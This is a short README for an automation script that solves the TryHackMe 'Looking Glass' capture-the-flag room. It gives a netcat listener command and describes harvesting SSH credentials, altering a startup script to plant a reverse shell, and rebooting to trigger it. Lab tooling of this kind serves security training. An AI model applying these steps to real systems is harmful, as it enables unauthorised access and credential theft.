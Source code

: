 Script package written for the TryHackMe Room Looking Glass. 

# Usage

Open a terminal to catch the reverse shell as:<br>
`nc -nlvp 8008`

In another terminal, run the primer script as:<br>
./LG-primer TARGET_IP LOCAL_IP<br>

The script will automatically:<br>
* find the correct port for the Dropbear SSH service
* connect to the service and solve the cipher challenge
* collect login credentials for jabberwock on SSH port 22
* login and alter the twasBrillig.sh for a reverse shell
* execute `sudo reboot` to send the shell to your waiting listener

